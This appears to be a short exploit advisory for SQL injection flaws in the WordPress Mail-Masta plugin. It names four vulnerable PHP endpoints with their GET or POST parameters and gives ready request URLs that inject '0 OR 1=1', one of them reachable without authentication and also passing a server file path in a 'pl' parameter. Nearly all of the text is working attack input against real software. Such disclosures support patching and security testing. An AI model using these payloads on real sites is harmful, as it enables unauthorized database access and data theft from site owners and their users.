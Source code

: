 Wordpress Plugin Mail-Masta SQL Injection
=========================================
Page: ../wp-content/plugins/mail-masta/inc/lists/csvexport.php
GET Parameter: list_id
http://<wordpress>/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


Page: ../wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires authentication to Wordpress admin)
GET Parameter: filter_list
http://<wordpress>/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


Page: ../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires authentication to Wordpress admin)
POST Parameter: camp_id
http://<wordpress>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php


Page: ../wp-content/plugins/mail-masta/inc/campaign_save.php (Requires authentication to Wordpress admin)
POST Parameter: list_id

